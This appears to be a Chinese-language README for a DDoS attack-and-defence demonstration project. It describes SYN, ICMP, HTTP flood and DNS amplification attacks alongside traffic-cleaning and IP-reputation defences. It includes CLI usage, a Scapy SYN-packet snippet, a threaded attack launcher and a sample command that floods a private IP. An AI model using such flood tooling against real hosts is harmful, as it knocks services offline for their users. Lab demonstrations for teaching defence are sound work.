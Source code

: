 # DDoS 攻防演示系统

## 系统功能介绍

### 1. 攻击模块
- **网络层攻击**
  - SYN Flood：通过发送大量SYN请求耗尽目标服务器的半连接队列
  - ICMP Flood：发送大量ICMP Echo请求消耗网络带宽
- **应用层攻击**
  - HTTP Flood：发送大量HTTP GET/POST请求耗尽Web服务器资源
  - DNS Amplification：利用DNS服务器放大攻击流量

### 2. 防御模块
- **流量清洗**
  - 流量特征分析：识别异常流量模式
  - IP行为分析：监控源IP的请求行为
  - 动态阈值控制：自适应调整清洗策略
- **访问控制**
  - IP信誉度机制：记录和评估IP行为
  - 请求频率限制：控制单IP访问速率
  - 动态黑白名单：自动更新IP过滤规则

## 使用参数说明

### 攻击命令 (attack_cli.py)
```bash
usage: attack_cli.py [-h] -t TARGET [-p PORT] -m {syn,icmp,http,dns}
[--threads THREADS] [--duration DURATION]
[--http-method {GET,POST}]
参数说明：
-t, --target 目标IP或域名
-p, --port 目标端口号 (默认: 80)
-m, --mode 攻击模式: syn/icmp/http/dns
--threads 攻击线程数 (默认: 4)
--duration 持续时间(秒) (默认: 10)
--http-method HTTP方法 (默认: GET)
```
### 防御命令 (defense_cli.py)
```bash
usage: defense_cli.py [-h] [-i INTERFACE] -m {traffic,access,all}
[--threshold THRESHOLD] [--window WINDOW] [--report]
参数说明：
-i, --interface 监听网络接口 (默认: eth0)
-m, --mode 防御模式: traffic/access/all
--threshold 流量阈值(包/秒) (默认: 1000)
--window 统计窗口(秒) (默认: 60)
--report 生成防御报告
```
## 目录结构及核心实现
```
ddos_demo/
├── attack/ # 攻击模块
│ ├── network/ # 网络层攻击
│ │ ├── syn_flood.py # SYN洪水攻击实现
│ │ └── icmp_flood.py # ICMP洪水攻击实现
│ └── application/ # 应用层攻击
│ ├── http_flood.py # HTTP洪水攻击实现
│ └── dns_amp.py # DNS放大攻击实现
├── defense/ # 防御模块
│ ├── traffic_clean.py # 流量清洗实现
│ └── access_control.py # 访问控制实现
├── utils/ # 工具模块
│ ├── monitor.py # 攻击效果监控
│ ├── logger.py # 日志记录
│ ├── config.py # 配置管理
│ └── report.py # 报告生成
├── attack_cli.py # 攻击命令行入口
└── defense_cli.py # 防御命令行入口
```
## 核心实现逻辑

### 1. 攻击模块核心实现
- **SYN Flood**
  ```python
  # 核心逻辑：构造TCP SYN包并发送
  ip_packet = IP(src=source_ip, dst=target_ip)
  tcp_packet = TCP(sport=source_port, dport=target_port, flags="S")
  send(ip_packet/tcp_packet)
  ```

- **HTTP Flood**
  ```python
  # 核心逻辑：发送HTTP请求
  session.get/post(target_url, 
                  headers=random_headers,
                  data=random_data)
  ```

### 2. 防御模块核心实现
- **流量清洗**
  ```python
  # 核心逻辑：分析和过滤数据包
  def clean_traffic(self, packet):
      if packet.src in self.blacklist:
          return False
      if self.analyze_packet(packet):
          return True
      return False
  ```

- **访问控制**
  ```python
  # 核心逻辑：IP信誉度检查
  def check_ip_reputation(self, ip):
      if ip in self.blacklist:
          return False
      return self.ip_reputation.get(ip, 0) > self.threshold
  ```

### 3. 监控系统实现
```python
# 核心逻辑：统计和监控
def update_stats(self, attack_type, count):
    with self.lock:
        self.stats[attack_type] += count
```

### 4. 多线程实现
```python
# 核心逻辑：并发攻击
def start_attack(self):
    threads = []
    for _ in range(self.num_threads):
        thread = threading.Thread(target=self.attack_method)
        thread.start()
        threads.append(thread)
    return threads
```

## 使用示例

1. 启动SYN Flood攻击：
```bash
sudo python3 attack_cli.py -t 192.168.1.1 -m syn --threads 8
```

2. 启动防御系统：
```bash
sudo python3 defense_cli.py -m all --threshold 500 --report
```

## 依赖安装
```bash
sudo pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple matplotlib pandas scapy requests fake-useragent pyyaml
```
